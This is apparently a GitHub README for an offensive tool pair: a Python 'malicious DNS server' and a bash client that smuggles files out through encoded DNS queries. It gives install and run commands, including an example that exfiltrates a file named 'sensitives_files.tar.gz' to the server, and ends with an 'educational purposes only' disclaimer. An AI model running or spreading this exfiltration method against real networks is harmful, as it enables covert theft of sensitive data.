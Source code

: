 # Malicious DNS Server & Data Exfiltration Client

This project consists of a malicious DNS server and a client for data exfiltration via DNS queries.

## Features
- **DNS Server**: Intercepts and processes specially crafted DNS requests, python file.
- **Data Exfiltration**: Encodes and extracts data using DNS queries, bash file. Uses `dig` or `host` if available.

## Requirements
- Python 3.x
- Required libraries: `dnslib`

Install dependencies using:
```sh
pip install dnslib
```

## Usage
### Start the Malicious DNS Server
```sh
python3 malicious_dns_server.py
```

The server will listen for incoming DNS queries and extract encoded data.

### Use the Client for Data Exfiltration
```sh
./client.sh <file_to_exfiltrate> <dns_ip> <dns_port>
```
Example:
```sh
./client.sh sensitives_files.tar.gz 127.0.0.1 5353
```
This will encode and send the data using DNS queries to the malicious server.

## Security Warning ⚠️
This tool is for educational and research purposes only. Unauthorized use is illegal and unethical. Do not use this tool in real-world attacks.

## License
This project is licensed under the MIT License.

